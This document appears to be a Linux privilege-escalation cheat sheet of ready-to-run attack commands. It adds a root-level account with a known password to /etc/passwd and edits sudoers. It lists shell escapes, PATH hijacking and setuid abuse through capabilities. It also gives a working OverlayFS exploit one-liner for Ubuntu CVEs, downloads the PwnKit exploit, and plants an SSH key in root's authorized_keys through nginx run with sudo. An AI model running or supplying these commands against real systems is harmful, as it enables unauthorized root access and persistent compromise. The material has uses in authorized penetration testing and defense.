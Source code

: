 Add root2 to /etc/passwd:
```bash
echo "root2:$(openssl passwd toor):0:0:root:/root:/bin/bash" >> /etc/passwd
```

Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---
Shell SUDO / escape:
---
---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Abuse non-absolute path in scripts/bins run as root:

```bash
#create the script and rename to match the file you wish to impersonate
echo "#\!/bin/bash\nbash" > /dev/shm/malicious_bin
chmod +x /dev/shm/malicious_bin
#make sure it searches /dev/shm first for the file
export PATH=/dev/shm:$PATH
```

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```bash
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629):

```bash
#ubuntu overlayfs priv esc from reddit
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```

Check for looney tunables
#priv-esc-linux
```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

PwnKit (by the author of 'certipy'):
```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```
Abuse NGINX sudo for privesc:
----
create the following /tmp/pwn.conf on box:
```conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1337;
                root /;
                autoindex on;
                dav_methods PUT;
     }
}
```
```bash
sudo nginx -c /tmp/pwn.conf
ss -tunlp
#make sure port 1337 is opened
ssh-keygen
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```


